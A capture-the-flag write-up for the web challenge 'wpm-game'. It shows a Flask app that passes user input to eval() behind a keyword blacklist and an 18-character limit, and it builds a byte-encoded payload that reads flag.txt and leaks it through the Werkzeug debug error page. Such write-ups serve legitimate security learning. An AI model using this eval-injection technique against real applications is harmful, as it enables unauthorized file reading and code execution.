




# wpm-game

**Author**: carax49

## Overview

- Challenge: [wpm-game](https://play.scriptsorcerers.xyz/challenges#wpm-game-66)
- Category: Web
- Description:

```text
Let's test out your words per minute! The website is under development though, might not be fully secure.... Flag is in flag.txt.
```

## Analysis

The challenge gives me the application's source code.

I extracted it and looked at `app.py`

```python
import random

from flask import Flask, jsonify, render_template, request

app = Flask(__name__)

SENTENCES = [
    "The quick brown fox jumps over the lazy dog while the cat watches from the fence.",
    "Typing fast is a skill that improves with practice and a little bit of patience.",
    "A journey of a thousand miles begins with a single step taken with confidence.",
    "Good code is its own best documentation as it explains itself to the reader.",
    "The sun set behind the mountains and painted the sky in shades of orange and pink.",
    "Simplicity is the ultimate sophistication when it comes to design and engineering.",
    "She sells seashells by the seashore and the shells she sells are surely seashells.",
    "Every great developer you know got there by solving problems they were unqualified to solve.",
]


def rate(wpm) -> float:
    if wpm < 50:
        return "slow"
    if wpm < 100:
        return "progressing"
    if wpm < 200:
        return "good"
    if wpm < 350:
        return "goated"
    if wpm > 900:
    	return "even robots can't do that"

def check(string):
    # Oops chat I might have accidently made it unsolvable. Only one way to find out? Let's see if you are 1337 enough
    string = string.lower()
    disallowed = [".","_","import", "=", ",", "'", '"', "attr", "global", "local", ";", ":", "^", "/", ">", "<", "{", "}", "m", "a", "not", "and", "or", "eval", "exec", "for", "in", "chr", "ord", "hex", "int", "repr", "str", "dir", "set", "len", "SENTENCES", "random", "request", "app", "flask"]
    c = any([x in string for x in disallowed]) 
    non_ascii = any([ord(x) < 32 for x in string]) or any([ord(x) > 126 for x in string])
    return c or non_ascii or len(set(string)) > 18

@app.route("/")
def index():
    return render_template("index.html", sentence=random.choice(SENTENCES))

	
@app.route("/rate")
def rate_wpm():
    try:
        wpm = request.args.get("wpm", "")
    except ValueError:
        return jsonify(error="invalid wpm"), 400
    if check(wpm):
        return "Invalid WPM!"
    return jsonify(verdict=rate(eval(wpm.lower())), wpm=float(wpm))


if __name__ == "__main__":
    app.run('0.0.0.0',debug=True)
```

Overall, this is a page for practicing and rating a user's typing speed. The app has 2 main endpoints:

- `/` : Shows a random sentence from the `SENTENCES` list
- `/rate`: Takes a `wpm` parameter and gives back a rating of the user's typing speed

The interesting part is the `/rate` endpoint:

```python
@app.route("/rate")
def rate_wpm():
    try:
        wpm = request.args.get("wpm", "")
    except ValueError:
        return jsonify(error="invalid wpm"), 400
    if check(wpm):
        return "Invalid WPM!"
    return jsonify(verdict=rate(eval(wpm.lower())), wpm=float(wpm))
```

The notable point is that user-controlled input is passed directly into the `eval()` function:

```python
verdict=rate(eval(wpm.lower()))
```

This lets the user directly control the expression passed into `eval()`, which could allow unintended Python expressions to run.

However, before the input reaches `eval()`, it has to pass the `check()` function:

```python
def check(string):
    string = string.lower()
    disallowed = [".","_","import", "=", ",", "'", '"', "attr", "global", "local", ";", ":", "^", "/", ">", "<", "{", "}", "m", "a", "not", "and", "or", "eval", "exec", "for", "in", "chr", "ord", "hex", "int", "repr", "str", "dir", "set", "len", "SENTENCES", "random", "request", "app", "flask"]
    c = any([x in string for x in disallowed]) 
    non_ascii = any([ord(x) < 32 for x in string]) or any([ord(x) > 126 for x in string])
    return c or non_ascii or len(set(string)) > 18
```

The `check` function blocks almost every special character and keyword that could be used to run commands, listed in the `disallowed` list, such as `.`, `_`, `import`, `exec`, `eval`, `chr`, `ord`, `/`, `'`, `"`...

Since the input is converted to lowercase before being checked, bypassing the blacklist by changing letter case isn't possible.

On top of that, the input can only use at most 18 distinct characters:

```python
len(set(string)) > 18
```

## Solution

First, I visited `/rate` without passing the `wpm` parameter. In that case `wpm` becomes an empty string, which causes `eval("")` to throw an exception. Since the app is running with `debug=True`, the server returns the Werkzeug Debugger, which let me gather more information about the environment.



I learned that the file `app.py` lives in `/app`, and based on the source code the challenge provided, `flag.txt` should also be in `/app` (since `flag.txt` sits in the same folder as `app.py`).

A quick test with a payload that doesn't trigger `check()`:

```python
50+50
```

Instead of returning `Invalid WPM!`, the response came back as

```text
500 Internal Server Error
...
```



I checked whether `/app` exists using the command

```python
open(b"/app")
```

But to bypass the `check()` function, I converted this command into byte form:

```python
open(bytes([47])+bytes([97])+bytes([112])+bytes([112]))
```

I URL-encoded the payload and sent it through Burp Repeater.



Based on the error returned, I confirmed that `/app` exists:

```text
IsADirectoryError: [Errno 21] Is a directory: b'/app'
 // Werkzeug Debugger
```

All that's left is reading `flag.txt`. Since I couldn't use `.read()`, I used the following trick instead.

I open `/app/flag.txt` and read its first line with `next()`, which is exactly the flag, then use `open()` to open a file whose name is the value returned by `next`, i.e. `open("scriptCTF{...}")`. The program throws an error and leaks the flag right there.

```python
open(next(open(b"/app/flag.txt")))
```

And to bypass the `check()` function, I converted the command into byte form:

```python
open(next(open(bytes([47])+bytes([97])+bytes([112])+bytes([112])+bytes([47])+bytes([102])+bytes([108])+bytes([97])+bytes([103])+bytes([46])+bytes([116])+bytes([120])+bytes([116]))))
```

But this payload has a problem: the number of distinct characters used goes over 18 (23 characters), and unsurprisingly, the server returned `Invalid WPM!`.

To fix this, I split the numbers apart to reduce the count of distinct characters.

Final payload, which does the exact same thing as the one above but uses only 18 distinct characters:

```python
open(next(open(bytes([44+3])+bytes([32+32+32+1])+bytes([111+1])+bytes([111+1])+bytes([44+3])+bytes([33+33+33+3])+bytes([24+24+24+24+12])+bytes([32+32+32+1])+bytes([34+34+34+1])+bytes([22+22+2])+bytes([44+44+24+4])+bytes([44+44+32])+bytes([44+44+24+4]))))
```



## Flag

```text
scriptCTF{t1ny_fl4g_1337_ffae316f46da}
```